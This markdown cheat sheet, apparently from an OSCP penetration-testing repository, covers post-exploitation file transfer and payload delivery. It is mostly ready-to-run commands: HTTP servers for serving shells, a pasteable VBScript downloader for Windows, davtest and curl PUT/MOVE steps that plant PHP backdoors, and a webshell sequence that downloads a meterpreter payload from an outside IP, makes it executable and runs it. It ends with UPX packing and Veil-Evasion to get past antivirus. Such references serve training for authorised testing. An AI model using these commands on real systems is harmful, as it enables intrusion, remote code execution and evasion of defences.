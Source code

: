 # Post Exploitation

## Simple Local Web Servers

Run a basic http server, great for serving up shells etc
>python -m SimpleHTTPServer 80

Run a basic Python3 http server, great for serving up shells etc..
>python3 -m http.server

Run a ruby webrick basic http server
>ruby -rwebrick -e "WEBrick::HTTPServer.new (:Port => 80, :DocumentRoot => Dir.pwd).start"

Run a basic PHP http server
>php -S $ip:80

Creating a wget VB Script on Windows:
https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt

Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

>echo Set args = Wscript.Arguments  >> webdl.vbs
>
>timeout 1
>
>echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
>
>timeout 1
>
>echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
>
>timeout 1
>echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
>timeout 1
>
>echo xHttp.Open "GET", Url, False  >> webdl.vbs
>
>timeout 1
>
>echo xHttp.Send  >> webdl.vbs
>
>timeout 1
>
>echo with bStrm >> webdl.vbs
>
>timeout 1
>
>echo .type = 1 ' >> webdl.vbs
>
>timeout 1
>
>echo .open >> webdl.vbs
>
>timeout 1
>
>echo .write xHttp.responseBody >> webdl.vbs
>
>timeout 1
>
>echo 	.savetofile "C:\temp\windows-privesc-check2.exe", 2 '  >> webdl.vbs
>
>timeout 1
>
>echo end with >> webdl.vbs
>
>timeout 1
>
>echo
>
>The file can be run using the following syntax:
>
>C:\temp\cscript.exe webdl.vbs

Mounting File Shares

>Mount NFS share to /mnt/nfs
>mount $ip:/vol/share /mnt/nfs

HTTP Put
>nmap -p80 $ip --script http-put --script-args
>
>http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

## Uploading Files

SCP

>scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2

>scp localfile username@$ip:~/Folder/

>scp Linux_Exploit_Suggester.pl bob@192.168.1.10:~


Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor

>davtest -move -sendbd auto -url http://$ip

https://github.com/cldrn/davtest

You can also upload a file using the PUT method with the curl command:

>curl -T 'leetshellz.txt' 'http://$ip'

And rename it to an executable file using the MOVE method with the curl command:

>curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'

## Upload shell using limited php shell cmd

use the webshell to download and execute the meterpreter
>\[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
>
>/tmp/evil" http://$ip/files/sh.php
>
>\[curl -s --data "cmd=chmod 777 /tmp/evil"
>
>http://$ip/files/sh.php
>
>curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php

TFTP
>mkdir /tftp
>
>atftpd --daemon --port 69 /tftp
>
>cp /usr/share/windows-binaries/nc.exe /tftp/

EX. FROM WINDOWS HOST:
>C:\\Users\\Offsec>tftp -i $ip get nc.exe

FTP
>apt-get update && apt-get install pure-ftpd

>\#!/bin/bash
>
>groupadd ftpgroup
>
>useradd -g ftpgroup -d /dev/null -s /etc ftpuser
>
>pure-pw useradd offsec -u ftpuser -d /ftphome
>
>pure-pw mkdb
>
>cd /etc/pure-ftpd/auth/
>
>ln -s ../conf/PureDB 60pdb
>
>mkdir -p /ftphome
>
>chown -R ftpuser:ftpgroup /ftphome/
>
>/etc/init.d/pure-ftpd restart

## Packing Files

Ultimate Packer for eXecutables
>upx -9 nc.exe

exe2bat - Converts EXE to a text file that can be copied and pasted
>locate exe2bat
>
wine exe2bat.exe nc.exe nc.txt

Veil - Evasion Framework
https://github.com/Veil-Framework/Veil-Evasion

>apt-get -y install git
>
>git clone https://github.com/Veil-Framework/Veil-Evasion.git
>
>cd Veil-Evasion/
>
>cd setup
>
>setup.sh -c
